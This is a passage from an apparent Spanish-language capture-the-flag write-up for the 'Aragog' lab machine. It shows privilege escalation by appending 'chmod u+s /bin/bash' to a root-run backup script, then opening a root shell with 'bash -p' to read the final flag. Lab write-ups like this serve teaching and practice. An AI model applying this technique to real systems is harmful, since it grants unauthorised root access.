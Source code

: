 Veamos su contenido:
```
hagrid98@Aragog:~$ cat /opt/.backup.sh
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
```

Parece que está copiando el directorio `/usr/share/wordpress/wp-content/uploads/` en un directorio temporal dentro de `/tmp`.

Veamos qué hay en `/tmp`:
```bash
hagrid98@Aragog:~$ ls -la /tmp
total 40
drwxrwxrwt 10 root root 4096 Nov  8 01:42 .
drwxr-xr-x 18 root root 4096 Mar 31  2021 ..
drwxrwxrwt  2 root root 4096 Nov  8 01:37 .font-unix
drwxrwxrwt  2 root root 4096 Nov  8 01:37 .ICE-unix
drwx------  3 root root 4096 Nov  8 01:37 systemd-private-4eb54db8a7204b619c98163f96a7cb2a-apache2.service-x0o998
drwx------  3 root root 4096 Nov  8 01:37 systemd-private-4eb54db8a7204b619c98163f96a7cb2a-systemd-timesyncd.service-hvECzu
drwxrwxrwt  2 root root 4096 Nov  8 01:37 .Test-unix
drwxr-xr-x  6 root root 4096 Nov  8 01:40 tmp_wp_uploads
drwxrwxrwt  2 root root 4096 Nov  8 01:37 .X11-unix
drwxrwxrwt  2 root root 4096 Nov  8 01:37 .XIM-unix
```

Lo curioso es que el directorio `/tmp` es del usuario **root**, por lo que entiendo que únicamente podría hacer esta acción de copiar un directorio dentro de `/tmp`, si tiene los permisos del **root**.

Vamos a usar este script para cambiar los permisos de la **Bash** para que cualquiera lo pueda ejecutar.

Vemos los permisos de la **Bash**:
```bash
hagrid98@Aragog:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Modifiquemos el script:
```bash
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
chmod u+s /bin/bash
```

Esperamos unos momentos y revisamos otra vez los permisos de la **Bash**:
```bash
hagrid98@Aragog:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Muy bien, ya solo entramos a la **Bash** y obtenemos la última flag:
```bash
hagrid98@Aragog:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
horcrux2.txt
bash-5.0# cat horcrux2.txt 
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
```